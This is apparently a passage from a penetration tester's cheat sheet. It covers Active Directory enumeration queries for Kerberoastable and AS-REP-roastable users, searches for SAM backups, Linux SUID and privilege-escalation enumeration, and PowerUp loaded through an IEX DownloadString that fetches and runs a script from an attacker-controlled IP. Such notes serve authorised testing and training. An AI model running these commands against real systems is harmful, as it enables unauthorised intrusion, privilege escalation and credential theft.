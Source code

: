 ```bash

# AS-REP-roastable
MATCH (u:User {dontreqpreauth: true}) RETURN u

# Kerberoastable 
MATCH (u:User) WHERE u.hasspn=true RETURN u

# RDP
MATCH p=(g:Group)-[:CanRDP]->(c:Computer) WHERE g.objectid ENDS WITH '-513' RETURN p
```

### cmd
```powershell
Get-Childitem -Path C:\windows.old -Include *SAM -Recurse -force -ErrorAction SilentlyContinue
```

## Linux
### cmd
```bash
ss -anp
find / -writable -type d 2>/dev/null
find / -iname "*admin*" 2>/dev/null
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```
### linpeas
```bash
cd /usr/share/peass/linpeas
```
### pspy
```bash
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64

wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy32
```

## Other
### git
```powershell
git status
git log
git show [commit]
git reset --hard
```

# Privilege Escalation
## Windows
### PowerUp
https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc
```powershell
cd /usr/share/windows-resources/powersploit/Privesc/
IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.37/PowerUp.ps1')

# AllChecks
IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.37/PowerUp.ps1'); Invoke-AllChecks

# john Password123!

```